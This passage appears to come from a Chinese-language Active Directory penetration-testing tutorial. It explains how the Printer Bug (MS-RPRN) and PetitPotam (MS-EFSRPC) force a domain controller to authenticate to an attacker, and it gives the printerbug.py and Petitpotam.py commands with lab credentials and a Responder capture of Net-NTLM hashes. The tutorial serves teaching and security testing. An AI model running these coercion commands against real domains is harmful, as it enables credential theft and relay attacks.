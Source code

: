 ### 2.打印机漏洞

Windows 的 `MS-RPRN` 协议用于打印客户机和打印服务器之间的通信，默认情况下是启用的。协议定义的 `RpcRemoteFindFirstPrinterChangeNotificationEx()`调用创建一个远程更改通知对象，该对象监视对打印机对象的更改，并将更改通知发送到打印客户端。任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过 Kerberos 或 NTLM 进行验证）。微软表示这个 bug 是系统设计特点，无需修复。由于打印机是以 system 权限运行的，所以我们访问打印机 RPC，迫使打印机服务向我们发起请求，我们就能拿到目标机器用户的 `Net-NTLM Hash`。

我们使用 printerbug.py 脚本执行如下命令，使用域内任意用户访问目标机器的打印机服务，此脚本会触发 SpoolService Bug，强制 Windows 主机 AD01 也就是10.211.55.4 通过 MS-RPRNRPC 接口向攻击者 10.211.55.2 进行 NTLM 身份认证。

```
python3 printerbug.py xie/hack:P@ss1234@10.211.55.4 10.211.55.2
```

如图所示，使用 printerbug.py 脚本触发目标服务器向攻击者发起 SMB 认证。

![截图](5a330110a4aa193ef18d3aab84557861.png)

此时我们的 Responder 已经收到目标机器向我们发送的 SMB 类型的 Net- NTLMHash 了，如图所示。

![截图](bd5661c5e202d32734d3f00cf40b473e.png)

### 3.PetitPotam

2021 年 7 月 19 日，法国安全研究人员 Gilles Lionel 披露了一种新型的触发Net-NTLMHash 的利用手法——PetitPotam。该漏洞利用了`微软加密文件系统远程协议（MS-EFSRPC，MicroSoft Encrypting File System Remote Protocol）`。MS-EFSRPC 是 Microsoft 的加密文件系统远程协议，用于对远程存储和通过网络访问的加密数据执行“维护和管理操作”。利用 PetitPotam，攻击者可以通过连接到 LSARPC 强制触发目标机器向指定远程服务器发送 Net-NTLMHash。

我们使用 Petitpotam.py 脚本执行如下命令，强制目标主机 AD01 也就是10.211.55.4 机器向攻击者 10.211.55.2 发起 NTLM 认证。

```
python3 Petitpotam.py -d xie.com -u hack -p P@ss1234 10.211.55.2 10.211.55.4
```

如图所示，使用 Petitpotam.py 脚本触发目标服务器向攻击者发起 SMB 认证。

![截图](525cd40c6697303ba6dd1a554138baaf.png)
